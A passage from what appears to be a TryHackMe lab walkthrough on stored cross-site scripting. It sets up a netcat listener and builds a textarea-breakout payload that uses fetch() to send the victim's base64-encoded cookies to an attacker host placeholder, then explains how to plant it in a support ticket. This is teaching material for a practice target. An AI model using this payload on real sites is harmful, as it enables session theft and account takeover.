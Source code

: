 nc

           `user@machine$ nc -nlvp 9001 Listening on [0.0.0.0] (family 0, port 9001)`
        

Now that we’ve set up the method of receiving the exfiltrated information, let’s build the payload.

`</textarea><script>fetch('http://URL_OR_IP:PORT_NUMBER?cookie=' + btoa(document.cookie) );</script>`

Let’s break down the payload:

- The `</textarea>` tag closes the text area field.
- The `<script>` tag opens an area for us to write JavaScript.
- The `fetch()` command makes an HTTP request.
- `URL_OR_IP` is either the THM request catcher URL, your IP address from the THM AttackBox, or your IP address on the THM VPN Network.
- `PORT_NUMBER` is the port number you are using to listen for connections on the AttackBox.
- `?cookie=` is the query string containing the victim’s cookies.
- `btoa()` command base64 encodes the victim’s cookies.
- `document.cookie` accesses the victim’s cookies for the Acme IT Support Website.
- `</script>`closes the JavaScript code block.

Now create another ticket using the above payload, making sure to swap out the `URL_OR_IP:PORT_NUMBER` variables with your settings (make sure to specify the port number as well for the Netcat listener). Now, wait up to a minute, and you will see the request come through containing the victim’s cookies.

**Note: You may encounter issues with receiving the request using your own VM and the VPN. It is recommended you use the AttackBox for this task.**

You can now base64 decode this information using a site like [https://www.base64decode.org/](https://www.base64decode.org/), giving you the necessary information to answer the below question.